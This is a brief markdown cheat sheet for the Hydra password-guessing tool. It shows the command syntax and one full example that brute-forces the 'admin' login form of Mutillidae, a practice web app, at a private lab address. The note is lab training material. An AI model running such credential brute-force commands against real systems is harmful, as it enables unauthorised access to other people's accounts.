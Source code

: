 # Hydra

## Syntax
```hydra [ip]  -l [usernames] -P [passwords] [service]```

## Example 
```hydra 10.20.14.212 -l admin -P /root/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"```
